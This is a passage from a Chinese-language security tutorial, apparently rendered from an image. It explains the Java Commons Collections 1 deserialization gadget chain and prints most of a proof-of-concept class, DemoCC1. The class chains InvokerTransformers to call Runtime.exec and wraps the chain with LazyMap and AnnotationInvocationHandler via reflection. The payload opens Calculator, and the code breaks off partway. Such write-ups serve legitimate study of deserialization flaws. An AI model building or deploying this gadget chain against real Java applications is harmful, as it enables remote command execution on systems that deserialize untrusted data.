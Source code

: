 ```java
// 使用 AnnotationInvocationHandler 对 proxyMap 重新包裹
InvocationHandler proxyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, proxyMap);

```

需要分清上面`lazyMapHandler`和`proxyMapHandler`两个`Handler`：
第一个`lazyMapHandler`是用于实例化代理对象，当调用代理对象的方法时会被转发到`invoke()`，从而触发`LazyMap`中的`get()`方法
第二个`proxyMapHandler`是为了执行代理类`proxyMap`的任意方法，从而触发第一处的`invoke()`方法

完整代码如下：

```java
package deserialization;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class DemoCC1 {
    public static void main(String[] args) throws Exception {
        final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer(
                "getMethod",
                new Class[] { String.class, Class[].class },
                new Object[] { "getRuntime", new Class[0] }
            ),
            new InvokerTransformer(
                "invoke",
                new Class[] { Object.class, Object[].class },
                new Object[] { null, new Object[0] }
            ),
            new InvokerTransformer(
                "exec",
                new Class[] { String.class },
                new String[] { "open -a Calculator" }
            ),
            new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        // lazyMap.get("test");

        // 通过反射获取 AnnotationInvocationHandler 构造函数
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annoConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
```